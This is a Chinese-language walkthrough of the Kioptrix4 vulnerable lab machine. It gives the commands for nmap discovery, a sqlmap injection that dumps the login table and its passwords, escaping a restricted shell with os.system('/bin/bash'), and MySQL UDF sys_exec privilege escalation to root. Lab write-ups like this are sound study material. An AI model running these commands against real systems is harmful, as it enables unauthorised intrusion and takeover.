 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供，我仅作部分内容修改

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../assets/img/渗透/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中。然后我们要知道这个虚拟机的 ip 地址，就要用到 IP 探活。

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../assets/img/渗透/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址，除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../assets/img/渗透/实验/Kioptrix4/3.png)

可以发现，目标打开了 80 端口

![image](../../../assets/img/渗透/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload，下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../assets/img/渗透/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../assets/img/渗透/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../assets/img/渗透/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../assets/img/渗透/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../assets/img/渗透/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../assets/img/渗透/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../assets/img/渗透/实验/Kioptrix4/17.png)
![image](../../../assets/img/渗透/实验/Kioptrix4/18.png)

在我们退出去后，尝试登陆到 root

![image](../../../assets/img/渗透/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
